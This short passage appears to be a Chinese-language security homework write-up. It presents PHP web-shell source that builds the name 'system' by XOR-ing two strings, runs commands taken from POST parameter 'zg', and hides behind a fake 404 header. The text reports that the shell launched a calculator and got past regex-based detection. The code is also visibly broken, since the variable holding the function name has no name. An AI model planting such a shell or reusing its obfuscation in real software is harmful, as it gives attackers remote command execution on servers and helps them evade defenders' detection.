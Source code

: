 ```php
header('HTTP/1.1 404');
class Aabyss{
    public $c='';
    function __destruct(){
        $ = ('.$.48]' ^ ']]]@]0');   //通过异或运算，得到高危函数system
    return $($this->c);
    }
}
$runrun=new Aabyss();
@$runrun->c=$_POST['zg'];
```

传参后，成功执行 `calc` 弹出计算器：

![课后作业-2.png](assets/1702521390-75f4693142b22dadf0722f29a2a45a0d.png)

绕过正则表达式的匹配，成功ByPass：

![课后作业-3.png](assets/1702521390-351a0580e6b95ef40a7881bc3abb259a.png)
